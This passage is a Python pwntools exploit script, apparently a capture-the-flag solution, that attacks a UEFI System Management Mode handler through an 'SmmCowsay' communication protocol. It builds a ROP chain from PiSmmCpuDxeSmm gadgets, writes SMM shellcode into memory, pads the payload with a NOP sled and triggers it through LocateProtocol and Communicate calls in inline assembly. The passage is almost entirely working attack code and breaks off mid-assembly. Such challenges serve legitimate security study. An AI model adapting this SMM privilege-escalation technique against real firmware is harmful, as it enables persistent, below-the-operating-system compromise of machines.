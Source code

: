 ```python
magic_gadget = PiSmmCpuDxeSmm_base + 0x3BB6
for i in range((len(smm_shellcode) // 8) - 1):
    payload += flat(
        [
            pop_raxrdi_gadget,
            u64_ex(smm_shellcode[i * 8 : (i + 1) * 8]),
            0,
            magic_gadget,
            PiSmmCpuDxeSmm_base + 0x1000 + (i + 1) * 8,
        ],
        word_size=64,
    )
payload += p64(PiSmmCpuDxeSmm_base + 0x1000)
payload = payload.ljust(400, b"\x90") + p64(loong_jump_gadget)

gEfiSmmCowsayCommunicationGuid = 0xF79265547535A8B54D102C839A75CF12
gEfiSmmCommunicationProtocolGuid = 0x32C3C5AC65DB949D4CBD9DC6C68ED8E2

execute_shellcode(
    asm(f"""
    lea rsi, [rip + buf_data];
    mov rdi, {smm_buf_addr};
    mov rcx, {len(payload) + 0x18};
    cld;
    rep movsb;

    ret;

buf_data:
    .octa {gEfiSmmCowsayCommunicationGuid}
    .quad {len(payload)};
""")
    + payload
)

context.log_level = "debug"

lianpwn.lg_inf("STEP 3: Attack!")
debug_with_addr()
execute_shellcode(
    asm(f"""
    // LocateProtocol(gEfiSmmCommunicationProtocolGuid, NULL, mSmmCommunication)
    lea rcx, [rip + buf_data];
    xor rdx, rdx;
    lea r8, [rip + buf_temp];
    mov rax, {LocateProtocol_addr};
    call rax;
    mov r15, [rip + buf_temp];
    lea r14, [rip + buf_temp];

    // Communicate(mSmmCommunication, Buffer, NULL)
    lea rcx, [rip + buf_temp];
    mov rdx, {smm_buf_addr};
    xor r8, r8;
    mov rax, [rcx];
    mov rax, [rax];
    call rax;

    ret;

buf_data:
    .octa {gEfiSmmCommunicationProtocolGuid}
buf_temp:
```